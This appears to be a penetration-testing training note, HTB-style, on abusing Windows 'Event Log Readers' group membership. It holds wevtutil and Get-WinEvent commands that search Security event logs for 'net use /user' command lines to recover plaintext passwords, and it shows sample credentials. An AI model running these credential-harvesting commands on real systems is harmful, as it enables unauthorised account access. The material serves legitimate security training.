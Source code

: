# Event Log Readers

**Confirming Group Membership**

```
C:\htb> net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members
```

**Searching Security Logs Using wevtutil**

```powershell
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

**Passing Credentials to wevtutil**
`C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"`

**Searching Security Logs Using Get-WinEvent**

```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```